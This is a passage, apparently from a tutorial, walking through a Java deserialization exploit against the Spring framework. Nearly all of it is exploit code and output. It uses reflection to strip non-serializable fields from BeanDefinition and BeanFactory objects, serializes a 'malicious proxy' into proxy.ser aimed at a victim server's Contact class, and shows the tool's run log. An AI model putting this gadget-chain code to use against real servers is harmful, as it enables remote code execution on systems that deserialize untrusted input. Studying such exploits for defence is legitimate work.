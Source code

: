 ```lang-java line-numbers 
	methodOverrides.setAccessible(true);
	methodOverrides.set(payload,null);
	System.out.println("[+] payload BeanDefinition methodOverrides property should be null: " + payload.getMethodOverrides());

    Field constructorArgumentValues2 = AbstractBeanDefinition.class.getDeclaredField("constructorArgumentValues");
    constructorArgumentValues2.setAccessible(true);
    constructorArgumentValues2.set(runtime,null);
    System.out.println("[+] runtime BeanDefinition constructorArgumentValues property should be null: " + runtime.getConstructorArgumentValues());

    Field methodOverrides2 = AbstractBeanDefinition.class.getDeclaredField("methodOverrides");
    methodOverrides2.setAccessible(true);
    methodOverrides2.set(runtime,null);
    System.out.println("[+] runtime BeanDefinition methodOverrides property should be null: " + runtime.getMethodOverrides());

	Field autowireCandidateResolver = DefaultListableBeanFactory.class.getDeclaredField("autowireCandidateResolver");
	autowireCandidateResolver.setAccessible(true);
	autowireCandidateResolver.set(beanFactory,null);
	System.out.println("[+] BeanFactory autowireCandidateResolver property should be null: " + beanFactory.getAutowireCandidateResolver());

} catch(Exception i) {
	i.printStackTrace();
	System.exit(-1);
}
```

Now, everything is ready to serialize our malicious proxy for a class that the victim server is expecting, in our example it will be the **Contact** class:

```lang-java line-numbers 
// Now lets serialize the proxy
System.out.println("[+] Serializating malicious proxy");
try {
    FileOutputStream fileOut = new FileOutputStream("proxy.ser");
    ObjectOutputStream outStream = new ObjectOutputStream(fileOut);
    outStream.writeObject(proxy);
    outStream.close();
    fileOut.close();
} catch(IOException i) {
	i.printStackTrace();
}
System.out.println("[+] Successfully serialized: " + proxy.getClass().getName());
```

Lets run the exploit to generate the serialized version of our malicious proxy:

```lang-bash line-numbers 
[+] Getting a DefaultListableBeanFactory modified so it has no writeReplace() method
[+] Creating malicious bean definition programatically
[+] Preparing BeanFactory to be serialized
[+] Nullifying non-serializable members
[+] payload BeanDefinition constructorArgumentValues property should be null: null
[+] payload BeanDefinition methodOverrides property should be null: null
[+] runtime BeanDefinition constructorArgumentValues property should be null: null
[+] runtime BeanDefinition methodOverrides property should be null: null
[+] BeanFactory autowireCandidateResolver property should be null: null
[+] Creating a TargetSource for our handler, all hooked calls will be delivered to our malicious bean provided by our factory
[+] Creating the handler and configuring the target source pointing to our malicious bean factory
```